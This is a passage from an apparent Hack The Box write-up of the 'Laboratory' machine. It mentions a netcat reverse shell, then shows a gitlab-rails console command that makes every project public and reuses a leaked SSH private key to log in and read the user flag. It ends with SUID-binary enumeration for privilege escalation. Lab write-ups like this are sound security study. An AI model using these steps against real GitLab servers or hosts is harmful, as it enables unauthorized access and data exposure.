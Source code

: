Our `netcat` listener quickly catch a reverse shell as git.

## Getting user

Using gitlab-rails console on the HTB machine and gitlab documentation about
[gitlab-rails cheatsheet](https://docs.gitlab.com/ee/administration/troubleshooting/gitlab_rails_cheat_sheet.html)
and [projects' permissions](https://docs.gitlab.com/ee/development/permissions.html)
we change the visibility of every projects on the gitlab instance to public.

    :::text
    gitlab-rails console
    --------------------------------------------------------------------------------
    GitLab:       12.8.1 (d18b43a5f5a) FOSS
    GitLab Shell: 11.0.0
    PostgreSQL:   10.12
    --------------------------------------------------------------------------------
    Loading production environment (Rails 6.0.2)
    Switch to inspect mode.
    Project.update_all(visibility_level: 20)

That allow us to discover a `securedocker` project from the `dexter` user
containing a [SSH private key](https://git.laboratory.htb/dexter/securedocker/-/blob/master/dexter/.ssh/id_rsa).

Using this key we can connect as `dexter` on the box and get the user flag.

    :::text
    $ ssh 10.129.60.56 -i id_rsa -ldexter
    dexter@laboratory:~$ id
    uid=1000(dexter) gid=1000(dexter) groups=1000(dexter)
    dexter@laboratory:~$ cat user.txt
    a153ecab9310723fa79e5dc37487ef68

# Root

We start enumerating the box. We "quickly" found a suspect SUID binary
`docker-security`.

    :::text
    dexter@laboratory:/tmp/.plop$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \; | grep -v snap
    -rwsr-xr-x 1 root dexter 16720 Aug 28 14:52 /usr/local/bin/docker-security
    -rwsr-xr-x 1 root root 166056 Jul 15 00:17 /usr/bin/sudo
    -rwsr-xr-x 1 root root 44784 May 28  2020 /usr/bin/newgrp
    -rwsr-xr-x 1 root root 67816 Apr  2  2020 /usr/bin/su
    -rwsr-xr-x 1 root root 88464 May 28  2020 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
    -rwsr-xr-x 1 root root 85064 May 28  2020 /usr/bin/chfn
    -rwsr-xr-x 1 root root 31032 Aug 16  2019 /usr/bin/pkexec
    -rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at
    -rwsr-xr-x 1 root root 39144 Apr  2  2020 /usr/bin/umount
    -rwsr-xr-x 1 root root 53040 May 28  2020 /usr/bin/chsh
    -rwsr-xr-x 1 root root 55528 Apr  2  2020 /usr/bin/mount
    -rwsr-xr-x 1 root root 68208 May 28  2020 /usr/bin/passwd
    -rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-- 1 root messagebus 51344 Jun 11 18:22 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-xr-x 1 root root 22840 Aug 16  2019 /usr/lib/policykit-1/polkit-agent-helper-1
    -rwsr-xr-x 1 root root 473576 May 29  2020 /usr/lib/openssh/ssh-keysign
